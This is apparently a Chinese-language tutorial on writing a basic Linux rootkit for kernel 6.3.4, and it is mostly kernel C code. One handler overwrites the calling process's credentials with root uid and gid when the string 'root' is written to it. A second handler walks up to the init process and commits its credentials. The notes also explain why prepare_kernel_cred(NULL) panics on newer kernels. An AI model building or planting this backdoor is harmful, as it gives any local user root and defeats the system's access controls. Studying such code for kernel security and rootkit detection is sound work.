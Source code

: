 基础rootkit的编写
内核版本定为`linux-6.3.4`
# 行为
## 1. 提权

### 1.1. 直接修改cred
直接修改当前进程的cred结构体的uid, gid变量

```c
static ssize_t pwh_rootkit_write(struct file *file, const char __user *buf, size_t count, loff_t *ppos){
    static char user_data[0x100];
    struct cred * cur_cred;
    size_t size = count > 0x100 ? 0x100 : count;
    int flags;
    flags = copy_from_user(user_data, buf, size);
    if(!strncmp(user_data, "root", 4)){
        printk(KERN_INFO "Streight Modify the cred...");
        cur_cred = (struct cred *)current->cred;
        cur_cred->uid = cur_cred->euid = cur_cred->suid = cur_cred->fsuid = KUIDT_INIT(0);
        cur_cred->gid = cur_cred->egid = cur_cred->sgid = cur_cred->fsgid = KGIDT_INIT(0);
    }
    return size;
}
```

### 1.2. 内核pwn常用控制流

调用`commit_creds(prepare_kernel_cred(NULL))`
但是在实验过程中导致了内核异常退出
```c

struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

	if (WARN_ON_ONCE(!daemon))
		return NULL;
...
```
这里源码发现运行至此处会判断daemon是否为空,是则返回NULL,
而这样就导致`commit_creds`的参数为NULL, 然后在后面的代码执行过程中出现panic

但这招仍然在可控范围内，
因为我们使用`commit_creds`的目的就是为了提供一个拥有root权限的cred结构体，
而内核中初始化会存有一个静态的`init_creds`结构体供我们使用

```c
struct cred init_cred = {
	.usage			= ATOMIC_INIT(4),
#ifdef CONFIG_DEBUG_CREDENTIALS
	.subscribers		= ATOMIC_INIT(2),
	.magic			= CRED_MAGIC,
#endif
	.uid			= GLOBAL_ROOT_UID,
	.gid			= GLOBAL_ROOT_GID,
...
```

所以这里我选择直接复制这个结构体作为参数,但在编译过程当中失败，理由是未识别的`init_cred`,
那么这里就默认`init_cred`并未被导出

那么这里还可以直接根据当前进程来不断向上遍历父进程直到init进程，进而获得`init_cred`
如下:
```c

    }else if(!strncmp(user_data, "escalate", 8)){
        printk(KERN_INFO "[peiwithhao rootkit] Prepare kernel cred and commit...");
        /* 获取当前进程的task_struct */
        tsk = current;
        while(tsk != tsk->parent){
            tsk = tsk->parent;
        }
        /* 此时task变为init进程 */
        commit_creds((struct cred *)tsk->cred);
```





